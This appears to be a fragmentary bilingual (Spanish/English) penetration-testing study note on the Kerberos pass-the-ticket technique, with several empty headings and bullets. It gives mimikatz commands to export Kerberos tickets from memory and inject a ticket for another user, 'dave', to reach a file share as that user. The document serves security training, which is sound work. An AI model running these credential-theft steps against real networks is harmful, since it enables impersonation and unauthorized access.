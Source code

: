 
## DESCRIPTION

In the previous section, we used the overpass the hash technique (along with the captured NTLM hash) to acquire a Kerberos TGT, allowing us to authenticate using Kerberos. We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: DESDE KALI

En este ejemplo;



Desde mimikatz:

```
privilege::debug
sekurlsa::tickets /export
```



We can verify newly generated tickets with **dir**, filtering out on the **kirbi** extension.

```
dir *.kirbi
```

we can just pick any TGS ticket in the kirbi format and inject it through mimikatz via the kerberos::ptt command.

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```


Lo verificamos con klist 

y ya podríamos acceder al recurso compartido como el otro usuario en este ejemplo dave.
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 
